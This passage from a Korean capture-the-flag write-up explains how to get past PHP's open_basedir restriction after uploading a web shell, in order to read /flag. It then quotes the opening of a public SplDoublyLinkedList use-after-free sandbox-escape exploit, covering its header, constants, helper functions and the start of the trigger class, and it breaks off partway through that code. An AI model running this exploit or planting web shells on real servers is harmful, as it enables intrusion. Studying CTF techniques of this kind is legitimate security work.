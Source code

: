 ![](https://github.com/wjddnjs33/Exploit/blob/main/ctf/2021/White%20Hat%20Contest%202021/Mudbox/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-12%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%205.45.14.png?raw=true)

그리고 혹시나 해서 `open_basedir` 설정도 확인 해보니 위와 같이 `/tmp:/var/www/html/data` 설정 되어 있는 것을 확인 했습니다. 플래그는 현재 `/flag`에 있습니다. 또한 우리가 업로드 하는 웹쉘도 `data/` 하위에 생성이 되기 때문에 `data/` 디렉터리에서 현재 경로 및 하위 파일들만 건들 수 있습니다. 

그래서 open_basedir을 우회해서 최상위 디렉터리에 있는 `/flag`를 읽어야 합니다.

open_basedir을 우회하는 첫 번째 방식은 잘 알려진 UAF Sandbox Escape를 이용하는 것 입니다.

```php
<?php
#
# PHP SplDoublyLinkedList::offsetUnset UAF
# Charles Fol (@cfreal_)
# 2020-08-07
# PHP is vulnerable from 5.3 to 8.0 alpha
# This exploit only targets PHP7+.
#
# SplDoublyLinkedList is a doubly-linked list (DLL) which supports iteration.
# Said iteration is done by keeping a pointer to the "current" DLL element.
# You can then call next() or prev() to make the DLL point to another element.
# When you delete an element of the DLL, PHP will remove the element from the
# DLL, then destroy the zval, and finally clear the current ptr if it points
# to the element. Therefore, when the zval is destroyed, current is still
# pointing to the associated element, even if it was removed from the list.
# This allows for an easy UAF, because you can call $dll->next() or
# $dll->prev() in the zval's destructor.
#
#


define('NB_DANGLING', 200);
define('SIZE_ELEM_STR', 40 - 24 - 1);
define('STR_MARKER', 0xcf5ea1);

function i2s(&$s, $p, $i, $x=8)
{
    for($j=0;$j<$x;$j++)
    {
        $s[$p+$j] = chr($i & 0xff);
        $i >>= 8;
    }
}


function s2i(&$s, $p, $x=8)
{
    $i = 0;

    for($j=$x-1;$j>=0;$j--)
    {
        $i <<= 8;
        $i |= ord($s[$p+$j]);
    }

    return $i;
}


class UAFTrigger
{
    function __destruct()
    {
        global $dlls, $strs, $rw_dll, $fake_dll_element, $leaked_str_offsets;

```